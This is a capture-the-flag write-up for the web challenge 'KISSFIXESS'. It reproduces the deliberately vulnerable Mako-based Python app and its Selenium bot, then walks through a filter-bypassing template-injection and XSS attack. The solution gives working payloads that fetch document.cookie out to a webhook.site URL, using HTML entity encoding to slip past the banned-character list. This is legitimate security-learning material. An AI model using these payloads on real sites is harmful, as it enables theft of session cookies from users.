




# KISSFIXESS

```text
Kiss My Fixes.

Ain't nobody solving this now.
```

points: `50`

solves: `95`

author: `hofill`

---

## Files Provided

```text
public/
├── bot.py
├── Dockerfile
├── main.py
├── requirements.txt
└── start_docker.sh
```

`Dockerfile`:

```dockerfile
FROM python:3.9-slim

# avoid prompts and keep image lean
ENV DEBIAN_FRONTEND=noninteractive

# install Chromium, Chromedriver and needed libs
RUN apt-get update \
 && apt-get install -y --no-install-recommends \
    chromium \
    chromium-driver \
    libatk1.0-0 \
    libatk-bridge2.0-0 \
    libcups2 \
    libdbus-1-3 \
    libdrm2 \
    libgbm1 \
    libgtk-3-0 \
    libnspr4 \
    libnss3 \
    libx11-xcb1 \
    libxcomposite1 \
    libxdamage1 \
    libxrandr2 \
    xdg-utils \
 && rm -rf /var/lib/apt/lists/*

# so selenium can call "google-chrome" by default
RUN ln -s /usr/bin/chromium /usr/bin/google-chrome

RUN useradd -m -d /app -s /bin/bash sadge \
    && chown -R sadge:sadge /app
USER sadge

WORKDIR /app
COPY . /app

# install Python deps
RUN pip install --no-cache-dir -r requirements.txt

EXPOSE 8000

# tell Selenium where to find Chromium if needed:
ENV CHROME_BINARY=/usr/bin/chromium

CMD ["python", "main.py"]
```

`start_docker.sh`:

```shell
#!/bin/bash

docker build -t icseses .
docker run -it --rm \
    -p 8000:8000 \
    icseses
```

`requirements.txt`:

```txt
Mako==1.2.4
selenium==4.32.0
```

`main.py`:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import json
from urllib.parse import parse_qs
from bot import visit_url
from mako.template import Template
from mako.lookup import TemplateLookup
import os
from urllib.parse import urlparse, parse_qs
from threading import Thread

MODULE_DIR = os.path.join(os.path.dirname(__file__), 'templates')
if not os.path.exists(MODULE_DIR):
    try:
        os.makedirs(MODULE_DIR)
    except OSError as e:
        print(f"Warning: Could not create Mako module directory: {e}")
        MODULE_DIR = None

html_template = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Pixel Rainbow Name</title>
    <style>
        @import url('https://fonts.googleapis.com/css2?family=Press+Start+2P&display=swap');

        body {
            font-family: 'Press Start 2P', cursive;
            background-color: #222;
            color: #fff;
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: center;
            min-height: 100vh;
            margin: 0;
            padding: 20px;
            box-sizing: border-box;
        }

        .container {
            background-color: #333;
            padding: 30px;
            border: 5px solid #555;
            box-shadow: 0 0 0 5px #444, 0 0 0 10px #333, 0 0 20px 10px #000;
            text-align: center;
        }

        h1 {
            font-size: 24px;
            color: #0f0; /* Green for a retro feel */
            margin-bottom: 20px;
            text-shadow: 2px 2px #000;
        }

        label {
            font-size: 16px;
            color: #ccc;
            display: block;
            margin-bottom: 10px;
        }

        input[type="text"] {
            font-family: 'Press Start 2P', cursive;
            padding: 10px;
            font-size: 16px;
            border: 3px solid #555;
            background-color: #444;
            color: #fff;
            margin-bottom: 20px;
            outline: none;
        }

        input[type="submit"] {
            font-family: 'Press Start 2P', cursive;
            padding: 10px 20px;
            font-size: 16px;
            color: #fff;
            background-color: #007bff;
            border: 3px solid #0056b3;
            cursor: pointer;
            transition: background-color 0.2s;
        }

        input[type="submit"]:hover {
            background-color: #0056b3;
        }

        .name-display {
            margin-top: 30px;
            font-size: 32px; /* Base size for rainbow text */
            font-weight: bold;
            padding: 10px;
        }

        .rainbow-text {
            /* Fallback for browsers that don't support background-clip */
            color: #fff;
            /* Rainbow effect */
            background: linear-gradient(to right,
                hsl(0, 100%, 50%),  /* Red */
                hsl(30, 100%, 50%), /* Orange */
                hsl(60, 100%, 50%), /* Yellow */
                hsl(120, 100%, 50%),/* Green */
                hsl(180, 100%, 50%),/* Cyan */
                hsl(240, 100%, 50%),/* Blue */
                hsl(300, 100%, 50%) /* Magenta */
            );
            -webkit-background-clip: text;
            background-clip: text;
            color: transparent; /* Make the text itself transparent */
            /* Animate the gradient */
            animation: rainbow_animation 6s ease-in-out infinite;
            background-size: 400% 100%;
            text-shadow: none; /* Remove any inherited text-shadow */
        }
        
        .rainbow-text span { /* Ensure individual spans also get the effect if we were to wrap letters */
             -webkit-background-clip: text;
            background-clip: text;
            color: transparent;
        }

        @keyframes rainbow_animation {
            0%, 100% {
                background-position: 0 0;
            }
            50% {
                background-position: 100% 0;
            }
        }

        .instructions {
            font-size: 12px;
            color: #888;
            margin-top: 30px;
        }

    </style>
</head>
<body>
    <div class="container">
        <h1>Pixel Name Display!</h1>
        <form method="GET" action="/">
            <label for="name">Enter Your Name:</label>
            <input type="text" id="name" name="name_input" autofocus>
            <input type="submit" value="Show Fancy Name">
        </form>

        % if name_to_display:
            <div class="name-display">
                Your fancy name is:
                <div class="rainbow-text">NAME</div>
            </div>
        % endif

        <p class="instructions">
            Enter a name and see it in glorious pixelated rainbow colors!
        </p>
        <p class="instructions">
            Escaped characters: ${banned}
        </p>
        <input type="submit" value="Report Name" onclick="reportName()">
        <script>
            function reportName() {
                // Get from query string
                const name = new URLSearchParams(window.location.search).get('name_input');
                if (name) {
                    fetch('/report', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        body: JSON.stringify({ name: name })
                    })
                    .then(response => {
                        if (response.ok) {
                            alert('Name reported successfully!');
                        } else {
                            alert('Failed to report name.');
                        }
                    })
                    .catch(error => {
                        console.error('Error reporting name:', error);
                    });
                }
            }
        </script>
    </div>
</body>
</html>
"""

lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
    
    def do_POST(self):
        # Handle POST requests to report names
        if self.path == "/report":
            content_length = int(self.headers['Content-Length'])
            post_data = self.rfile.read(content_length)
            name = json.loads(post_data.decode('utf-8')).get("name", "")
            print(f"Received name: {name}")
            if name:
                print(f"Reported name: {name}")
                self.send_response(200)
                self.end_headers()
                self.wfile.write(b"Name reported successfully!")
                Thread(target=visit_url, args=(name,)).start()
            else:
                self.send_response(400)
                self.end_headers()
                self.wfile.write(b"Bad Request: No name provided.")
        else:
            self.send_response(404)
            self.end_headers()

def run_server(server_class=HTTPServer, handler_class=SimpleHTTPRequestHandler, port=8000):
    server_address = ("0.0.0.0", port)
    httpd = server_class(server_address, handler_class)
    print(f"Starting http server on port {port}...")
    print(f"Access the page at http://0.0.0.0:{port}")
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print("\nServer stopped.")
    finally:
        httpd.server_close()

if __name__ == "__main__":
    run_server()
```

`bot.py`:

```python
import tempfile
import time
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
import sys
from urllib.parse import quote

URL_BASE = "http://localhost:8000"

def visit_url(name: str, timeout: int = 30):
  chrome_opts = Options()
  chrome_opts.add_argument("--headless=new")
  chrome_opts.add_argument("--disable-gpu")
  chrome_opts.add_argument("--disable-dev-shm-usage")
  chrome_opts.add_argument("--disable-extensions")
  chrome_opts.add_argument("--disable-popup-blocking")
  chrome_opts.add_argument("--blink-settings=imagesEnabled=false")  # don't load images
  chrome_opts.add_argument("--log-level=3")  # reduce logging
  chrome_opts.add_argument("--no-sandbox")
  
  user_data_dir = tempfile.mkdtemp(prefix="chrome-profile-")
  chrome_opts.add_argument(f"--user-data-dir={user_data_dir}")  # use a temporary user data directory
  
  
  chrome_opts.add_argument("--user-data-dir=/tmp/chrome")  # use a temporary user data directory
  
  driver = webdriver.Chrome(options=chrome_opts)
  
  try:
    driver.set_page_load_timeout(timeout)
    driver.set_script_timeout(5)
    driver.get(URL_BASE)
    driver.add_cookie({
        "name": "flag",
        "value": "TFCCTF{~}",
    })
    
    encoded_name = quote(name)
    driver.get(f"{URL_BASE}/?name_input={encoded_name}")
    # allow some time for JS to execute
    time.sleep(200)
    driver.quit()
  finally:
    driver.quit()
```

## Solution



The goal is to steal the flag cookie from the bot. This can be done by XSS: payload in the `name` input and clicking "Report Name" button to make the bot visit it.

But there are some banned strings:

```python
banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]
```

Presence of "import" "eval" etc in the above hints towards Server Side Template Injection. We can see that `Mako` template engine is being used. Trying SSTI:



A `banned` string is being passed, can we use it?

```python
return template.render(name_to_display=name_to_display, banned="&<>()")
```



Yep! Now we have a way to inject `& < > ( )`

As for other characters (if used inside strings), we can use [HTML Codes](https://www.rapidtables.com/web/html/html-codes.html) (e.g. code for `"` is `&#34`):



Crafting the payload (using [Webhook](https://webhook.site/#!/) to get a url to send cookie to):

```text


${banned[1]}img SRC=x onerror='fetch${banned[3]}"https://webhook.site/c18ed5ff-57ec-4e82-87ba-7fb48728299a/?item="+document.cookie${banned[4]}'${banned[2]}

${banned[1]}img SRC=x onerror='fetch${banned[3]}${banned[0]}#34http${banned[0]}#115://webhook${banned[0]}#46${banned[0]}#115ite/c18ed5ff-57ec-4e82-87ba-7fb48728299a/?item=${banned[0]}#34+document${banned[0]}#46cookie${banned[4]}'${banned[2]}
```

This payload works when "Show Fancy Name" is clicked, but doesn't when "Report Name" is clicked. In the bot code:

```python
chrome_opts.add_argument("--blink-settings=imagesEnabled=false")  # don't load images
```

Hence, `img` tag wont't work. Using `video` tag:

```text
${banned[1]}video SRC=x onerror='fetch${banned[3]}${banned[0]}#34http${banned[0]}#115://webhook${banned[0]}#46${banned[0]}#115ite/c18ed5ff-57ec-4e82-87ba-7fb48728299a/?item=${banned[0]}#34+document${banned[0]}#46cookie${banned[4]}'${banned[2]}
```

This payload works and we get the flag on Webhook within few secs of clicking the report button
